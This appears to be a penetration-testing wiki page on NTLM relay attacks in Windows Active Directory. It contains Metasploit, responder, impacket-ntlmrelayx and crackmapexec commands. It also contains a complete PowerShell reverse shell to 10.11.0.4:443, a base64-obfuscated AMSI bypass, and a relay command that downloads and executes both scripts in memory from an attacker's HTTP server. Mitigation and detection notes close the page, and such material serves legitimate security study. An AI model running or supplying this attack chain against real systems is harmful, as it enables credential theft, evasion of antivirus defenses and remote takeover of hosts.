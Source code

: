 # NTLM Relay

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% hint style="info" %}
#### For a full list of MitM techniques refer to[ MitM & poisoning](../../../network-attacks/network-poisoning-mitm/) section.
{% endhint %}

## <mark style="color:red;">RDP MitM</mark>

#### refer to[ this section](../../../network-attacks/network-poisoning-mitm/rdp-downgrade.md) .

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows2000 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
impacket-ntlmrelayx -tf targets.txt -wh hacker-wpad --delegate-access -smb2support --remove-mic
responder -I vboxnet0 --lm -v -P -F -w -d -b
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

## <mark style="color:red;">NTLM Relay + AMSI Bypass</mark>

{% hint style="info" %}
Combining NTLM relay with empire one-liners is not effective in a modern Active Directory Environment with latest windows security updates because AMSI has evolved and the payload is easily detected and blocked.
{% endhint %}

This technique will use the same principles of NTLM relay but with a simple trick to bypass AMSI and get a reverse shell, the AMSI  bypass script and reverse shell payload can be different but the one i am using here could bypass windows 10  pro update 1/20/2020 with windows defender and AMSI enabled.

#### <mark style="color:green;">find hosts with smb signing disabled:</mark>

```
crackmapexec smb 192.168.56.1/24 --gen-relay-list targets
```

#### <mark style="color:green;">simple powershell TCP reverse shell payload (catch with netcat or metasploit multi/handler):</mark>

{% code title="rev.ps1" %}
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```
{% endcode %}

#### <mark style="color:green;">AMSI bypass payload (try using other payloads if this doesn't work):</mark>

{% code title="bypass.ps1" %}
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

#### <mark style="color:green;">run a python http server to serve these files:</mark>

```
python3 -m http.server 9000
```

#### <mark style="color:green;">run responder and ntlmrelayx with a powershell command to load the scripts in memory and execute them in the same powershell session (otherwise the bypass wont work):</mark>

```
 responder -I vboxnet0 -dw
 
 impacket-ntlmrelayx  --delegate-access -smb2support -tf targets -c "powershell -ep bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/bypass.ps1');IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/rev.ps1')"
```

now when responder gets new hashes, ntlmrelayx will relay them and if the login was successful, power powershell command will load bypass and reverse shell scripts in memory and execute both og them to bypass AMSI and we get a shell.

## <mark style="color:red;">Mitigation</mark>

* Enforce SM signing - turn on SMB Signing on all machines in the network.
* Block NTLMNv1- NTLMv1 is considered significantly less secure than its more recent version, the NTLMNv2.
* Enforce LDAP/S Signing- to prevent NTLM relay in LDAP, enforce LDAP signing and LDAPS channel binding on domain controllers.
* Enforce EPA- to prevent NTLM relay on web servers, harden them to accept only requests with EPA.
* _**Reduce NTLM usage-**_ even after all measures were taken. The best thing you can do is to simply reduce the NTLM usage. As NTLM poses a significant risk, it is recommended that you remove it where it is not needed.

{% hint style="success" %}
The only way to be totally safe from SMB/NTLM relay attacks is to completely disable NTLM authentication and  switch to Kerberos.

This might not always be possible as a lot of old services and applications have some issues with Kerberos.&#x20;
{% endhint %}

## <mark style="color:red;">Detection</mark>

* Get all NTLM logons where the session has admin privileges
* Get all hostnames and their IPs using one of the methods above
* Use left anti join to find logons where the **Network Address** in the NTLM logon event doesn’t match the IP of the host in step 2.

### <mark style="color:orange;">False Positive/Negative Considerations</mark> <a href="#1c97" id="1c97"></a>

* If you have load balancers or other devices that perform SNAT, authentications coming over these devices will be seen as relayed. These IPs need to be whitelisted. There is a false positive and false negative risk in this case.
* Devices that are not joined to a domain always perform NTLM authentication. Baselining with historical logon events will reduce false positives. Alternatively, hostname and IP address info can be obtained and whitelisted manually.
* NTLM relaying of machine accounts can’t be detected using the above logic if the machine logon events are used as the single source of truth for hostname — IP pair. This is a rare scenario but it might be critical like in the PetitPotam case. Critical computer accounts can be monitored using the same logic and using a manually created hostname-IP list. Since the attack surface most likely is the servers, DNS records might be a good option.
* Sometimes, the **Workstation Name/Network Address** doesn’t appear in the logs.

### <mark style="color:orange;">Bonus detection</mark> <a href="#429b" id="429b"></a>

The detection logic can also find devices that stopped sending events since the logic performs a logical NOT operation.
